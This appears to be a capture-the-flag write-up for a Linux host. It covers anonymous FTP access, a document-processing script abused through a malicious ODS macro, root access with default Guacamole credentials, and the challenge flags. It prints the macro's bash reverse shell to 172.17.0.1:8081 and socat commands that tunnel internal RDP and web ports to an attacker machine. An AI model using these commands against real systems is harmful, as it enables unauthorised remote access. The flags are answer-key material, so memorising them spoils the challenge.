 # Services

There were 2 ports given this time. The ports are running the usual services, HTTP and FTP on the default ports.

The webserver serves a maintenance message after a cyber incident.

![](screenshots/1.png)

The FTP server can be accessed anonymously. 

In the `to_process` folder a script is processing the files and the resulting report is dropped in the `process_result` folder. Every extension is processed. There are interesting results already in the output folder that might be the leftover of the attack above. Those files have bash outputs and the `to_process` folder has a stuck example.

# Excel VBA

Analyzing the [test2.ods](workdir/malwares.zip) file, it has a script/macro. The ods format is just a zip, where the macro is simple text: `test2.ods.zip\Basic\Standard\Module1.xml`.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE script:module PUBLIC "-//OpenOffice.org//DTD OfficeDocument 1.0//EN" "module.dtd">
<script:module xmlns:script="http://openoffice.org/2000/script" script:name="Module1" script:language="StarBasic" script:moduleType="normal">REM  *****  BASIC  *****
 
 
    Sub OnLoad
      Dim os as string
      os = GetOS
      If os = "windows" OR os = "osx" OR os = "linux" Then
        Exploit
      end If
    End Sub
 
    Sub Exploit
      Shell("/bin/bash -i >& /dev/tcp/172.17.0.1/8081 0>&1")
    End Sub
 
    Function GetOS() as string
      select case getGUIType
        case 1:
          GetOS = "windows"
        case 3:
          GetOS = "osx"
        case 4:
          GetOS = "linux"
      end select
    End Function
 
    Function GetExtName() as string
      select case GetOS
        case "windows"
          GetFileName = "exe"
        case else
          GetFileName = "bin"
      end select
    End Function
    
</script:module> 

```

The previous attack can be reused and the command can be replaced with our favourite reverse shell. The other folders can be used to upload other executables for example.

![](screenshots/2.png)

# Flag local
{HCSC}-LocaLFl4G!F0r_Tanu;

# RDP service

There are other services running on port `3000` and `3389` as root.

![](screenshots/3.png)

On port `3000`, it is a `Guacamole Client` web based remote desktop client (`/gclient/app.js`, `/usr/sbin/guacd`).

![](screenshots/4.png)

The `/gclient/`[app.js](workdir/gclient/app.js) file is readable.

```
// LinuxServer Guacamole Client
 
//// Env variables ////
var CUSTOM_PORT = process.env.CUSTOM_PORT || 3000;
var CUSTOM_USER = process.env.CUSTOM_USER || 'abc';
var PASSWORD = process.env.PASSWORD || 'abc';
var RDP_HOST = process.env.RDP_HOST || '127.0.0.1';
var RDP_PORT = process.env.RDP_PORT || '3389';
var AUTO_LOGIN = process.env.AUTO_LOGIN || null;
var SUBFOLDER = process.env.SUBFOLDER || '/';
var TITLE = process.env.TITLE || 'Guacamole Client';
var CYPHER =process.env.CYPHER || 'LSIOGCKYLSIOGCKYLSIOGCKYLSIOGCKY';
var FM_NO_AUTH = process.env.FM_NO_AUTH || 'false';
var FM_HOME = process.env.FM_HOME || '/config';
var KEYBOARD = process.env.KEYBOARD || 'en-us-qwerty';
```

On port 3389 it is probably a regular remote desktop running (`/usr/sbin/xrdp`).

Using the `abc:abc` credentials from the Guacamole config file logs us in as root.

![](screenshots/5.png)

There are some other connection information in `/root/cassandra_conn.info`, but was not used anywhere.

# Flag root
{HCSC};R0oTFl@G[4]!Tanu

# Tunnel

The port `3000` used by the Guacamole Client can not be accessed from the outside. With `socat` or similar, a tunnel can be built with an outgoing tcp connection (TCP Gender Changer).

```bash
# Attacker
sudo socat TCP-LISTEN:8888,reuseaddr,fork TCP-LISTEN:81,reuseaddr
# Client Guacamole
/srv/hcsc/ftp/socat TCP:10.8.0.15:81,forever,interval=1,fork TCP:localhost:3000
# Client RDP
/srv/hcsc/ftp/socat TCP:10.8.0.15:81,forever,interval=1,fork TCP:localhost:3389 
```

Afterwards on port `8888` on the attacker machine, the service can be accessed. The Guacamole was good, as it already logs us in with the user.

![](screenshots/6.png)

![](screenshots/7.png)